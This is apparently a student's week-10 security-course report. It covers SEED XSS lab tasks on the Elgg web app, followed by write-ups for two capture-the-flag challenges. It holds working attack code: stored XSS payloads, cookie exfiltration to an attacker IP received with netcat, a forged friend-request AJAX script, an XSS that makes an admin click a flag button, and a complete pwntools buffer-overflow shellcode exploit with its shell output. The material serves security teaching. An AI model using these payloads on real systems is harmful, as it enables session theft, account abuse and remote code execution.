

# Work developed in week 10

## **Lab Tasks**

### Task 1

After the lab setup, we have a variety of users we can choose to log in to the Elgg web app. For obvious reasons, Boby was the chosen one. To embed a JavaScript program into our profile we can edit our profile and paste the code below in the *Brief description* field. Doing so, whenever a user accesses our profile, the code will be run and the alert will be displayed.

```jsx
<script>alert('XSS');</script>
```

We also discovered that the script is not only run in Boby’s profile. When we access the *Members* tab on the website, which lists all the members and **also** their descriptions, the script is also run. This means that this vulnerability is a lot more dangerous since a user can be affected not only when visiting a profile containing malicious scripts, but also when browsing the list of all members.

### Task 2

In this task, we can simply replace the previous JavaScript embedded in the user’s *Brief description* to show the logged-in user cookies in the alert window (something like `Elgg=7s6jahq0ei4qq4k29rdn21pjot` will show up).

```jsx
<script>alert(document.cookie);</script>
```

### Task 3

As discussed in the latest Task, the user’s cookies are printed out in the alert, but only the user can see it, not the attacker on another machine. We can do this by having the malicious JavaScript insert a tag with its src attribute set to send the cookie to the attacker’s machine. When the JavaScript inserts the img tag, the browser tries to load the image from the URL in the src field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript given below sends the cookies to port 5555 of the attacker’s machine (with IP address 10.9.0.1), where the attacker has a TCP server listening to the same port.

The code below was added in the *Brief description* field.

```jsx
<script>document.write('');</script>
```

We can use ***netcat (nc)*** to create a TCP server that listens on the desired port (5555), with the command below. In the output, we can see the GET request made when accessing the infected user profile, where the user’s cookie is printed after the `?c=`.

```bash
[01/05/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.4 53434
GET /?c=Elgg%3D7s6jahq0ei4qq4k29rdn21pjot HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/
```

### Task 4

For this task, we aim to make Samy (the attacker account) a friend to any other user that visits his profile page. To accomplish that, we must insert malicious JavaScript in the homepage of Sammy's account, so when a user visits his page it will forge an HTTP request directly from the victim’s browser.

We start by understanding how a legitimate user adds a friend on Elgg, and we analyze the content of the HTTP request when adding a friend through the "HTTP Header Live" add-on tool to Inspect HTTP Headers. The following result shows us that we can get the id associated with the account added as a friend (**friend=59**) and two parameters, **__elgg_ts** and **__elgg_token.** These two parameters are used as a countermeasure to CSRF attacks. Since they change for each web user, it was saved in two variables, `ts` and `token`, the value obtained through access **elgg.security.token.__elgg_ts** and **elgg.security.token.__elgg_token**. These two parameters are added as security tokens and timestamps to every user action to be performed, by the Elgg application.

```
**http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641377945&__elgg_token=zBaPhORlU3G5CmU3GjZ3IQ&__elgg_ts=1641377945&__elgg_token=zBaPhORlU3G5CmU3GjZ3IQ**
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
Cookie: Elgg=5j2ttdfp8b87t2k1encss21r15

**GET: HTTP/1.1 200 OK**
Date: Wed, 05 Jan 2022 10:19:11 GMT
Server: Apache/2.4.41 (Ubuntu)
Cache-Control: must-revalidate, no-cache, no-store, private
expires: Thu, 19 Nov 1981 08:52:00 GMT
pragma: no-cache
x-content-type-options: nosniff
Vary: User-Agent
Content-Length: 388
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8
```

With the information taken above, we can use it to construct the following javascript using AJAX to recreate the add friend request and place it in the *Brief description* field with the Text mode enabled. The first line is where we can see the endpoint to make a friend request to Samy. This will result in any user who accesses Sammy's profile, with id=59, being added as their friend.

```jsx
<script type="text/javascript">
window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;
	//Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token;
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>
```

To finish this task, we place the malicious javascript code in the Brief description field with the *Editor mode* enable, and we verify that the attack was not able to launch successfully. This happened because the CKEditor strips the `script` tags when opening the content, disabling the script to run. In order to be successful, we need to change the Brief description field to *Text mode* so that all the code/text inserted is saved and output as it is inserted, and no text strip/encoding happens, and the script runs successfully when a user access Samy’s profile. 

## **CTF write-up/resolution**

### Challenge 1

In this Web Challenge, we can make a request with a custom message that will be seen by the administrator of the system. The message is intended to persuade the admin to give the flag of the challenge, but we can exploit this request instead.

We first tried a simple request: “Can you give us the flag, please?”, but didn’t get a response immediately. We kept trying and after a few attempts, we discovered that the admin responds after 4:30 minutes and changes the text on the page from  `Your request hasn't been evaluated yet!` to `Your request hasn't been approved...`.

By trying a simple `<script>alert(’hello’)</script>` an alert pops up, meaning that whatever we write in the text-area is written directly to the DOM without any type of cleaning.

While waiting for a response, there are 2 buttons on the webpage: 

- `Give the flag`
- `Mark request as read`

Both of these buttons are disabled and the page is refreshing every 5 seconds. To stop the automatic refreshing of the page we can run the following code in the console:

```bash
var highestTimeoutId = setTimeout(";");
for (var i = 0 ; i < highestTimeoutId ; i++) {
    clearTimeout(i); 
}
```

And with the page not refreshing automatically, we can check the source code. In the source code we have this commented line in the navbar:

```jsx
<!--<li class="nav-item active">
  <a class="nav-link" href="/logout">Logout</a>
</li>-->
```

Since we don’t need a login to use the site, this means that the admin can log in to the website, review the requests, and then log out.

Also, using the browser developer tools, we can remove the disable from the buttons and click them, but we get the following response on both:

```jsx
<h1>Forbidden</h1>
<p>You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```

No luck.

After this, we checked the cookies in the website using `document.cookie` in the console, and 1 cookie is returned: `_fbp=fb.1.1638035828817.819970978`.

This could mean that, to be able to access the admin privileged operations, we need to steal his cookie, to then use his cookie to make a request to give us the flag.

After struggling for a while with using request bin’s and thinking about WAF, we didn’t get anywhere.

We took a step back and simplified, instead of us making the admin work, let’s make the admin do the work for us, with this, the payload became:

```jsx
<script>document.getElementById('giveflag').click()</script>
```

And after 4:30 minutes, the admin clicks the button and we get the flag: `flag{ffec1e8431b9547764ca3db4da13d842}`

### Challenge 2



After analyzing the source code and the `checksec` results, we conclude that the objective of this challenge is to inject shellcode and execute it, using a buffer overflow, to run a shell.

To do this, we need to inject shellcode through the program input and change the program execution order by passing the address of the position where the shellcode starts to the program, once he detects a buffer overflow, instead of creating a `segmentation fault`

So, Using `gdb-peda` on the given file, we can create a sequence with `pattern_create 150`, pass this sequence to the program and we can see that it crashes at a given value, if we `pattern_offset <value>` the value, we get `108` , this is where we need to put the address value of the buffer, which is given to us by the program.

So the payload is `shellcode + b'\x00' * (108 - len(shellcode)) + p32(buffer)`

- the shellcode to open a shell
- lots of zero’s until the position 108
- the address of the buffer

The full code is:

```jsx
from pwn import *

context.update(arch='i386', os='linux')

LOCAL = True

if LOCAL:
    p = process("./program")
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

p.recvuntil(b"Your buffer is ")
buffer = p.recvuntil(b".")[:-1]
buffer = (int(buffer, 16))

shellcode = shellcraft.sh()
shellcode = asm(shellcode)

payload = shellcode + b'\x00' * (108 - len(shellcode)) + p32(buffer)

p.sendline(payload)
p.interactive()
```

And it results in the following output:

```jsx
seed@da838f9f5ff1:~$ python3 exploit_example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4001: Done
[*] Switching to interactive mode

Give me your input:
$ ls
flag.txt
run
$ cat flag.txt
flag{8bd466111fe1a4803dd4c54d3bdcbab7}
$
```
